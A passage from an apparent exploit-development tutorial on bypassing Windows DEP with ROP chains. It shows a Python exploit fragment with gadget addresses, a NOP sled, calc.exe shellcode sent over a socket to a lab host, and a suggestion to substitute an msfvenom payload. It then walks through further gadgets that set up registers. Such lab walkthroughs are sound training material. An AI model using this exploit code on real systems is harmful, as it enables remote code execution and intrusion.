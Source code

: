 ```python
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)

# Padding between ROP Gadgets and shellcode. Arbitrary number (just make sure you have enough room on the stack)
padding2 = "\x90" * 250

# calc.exe POC payload created with the Windows API system() function.
# You can replace this with an msfvenom payload if you would like
shellcode = "\x31\xc0\x50\x68"
shellcode += "\x63\x61\x6c\x63"
shellcode += "\x54\xbe\x77\xb1"
shellcode += "\xfa\x6f\xff\xd6"

# 5000 byte total crash
filler = "\x43" * (5000-len(command)-len(crash)-len(parameters)-len(padding)-len(rop)-len(padding2)-len(padding2))
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.148", 9999))
s.send(command+crash+rop+parameters+padding+rop2+padding2+shellcode+filler)
s.close()
```

After execution of the ROP gadgets, ECX has been increased to equal the position of `return`:

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP21.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP22.png" alt="">

Perfect. ECX now contains a value of the `return` parameter. Let's knock out `lpAddress` while we are here.
Since `lpAddress` comes after the `return` parameter, it will be located 4 bytes after the `return` parameter on the stack.

Since ECX already contains the `return` address, adding four bytes would get us to `lpAddress`. Let's use ROP to get ECX copied into another register (EDX in this case) and increase EDX by four bytes!

ROP gadgets:

```
0x6ffb6162: mov edx, ecx ; pop ebp ; ret  ;  msvcrt.dll
0x77f226d5: inc edx ; ret  ;  ntdll.dll
```

Before we move on, take a closer look at the first ROP gadget. The `mov edx, ecx` instruction is exactly what is needed. The next instruction is a `pop ebp`. This, as of right now in its current state, would kill our exploit. Recall, `pop` will take whatever is on the top of the stack away. As of right now, after the first ROP gadget is loaded into EIP - the second ROP gadget above would be located at ESP. The first ROP gadget would actually take the second ROP gadget and throw it in EBP. We don't want that.

So, what we can do, is we can add "dummy" data directly AFTER the first ROP gadget. That way, that "dummy" data will get popped into EBP (which we do not care about) and the second ROP gadget will be successfully executed.
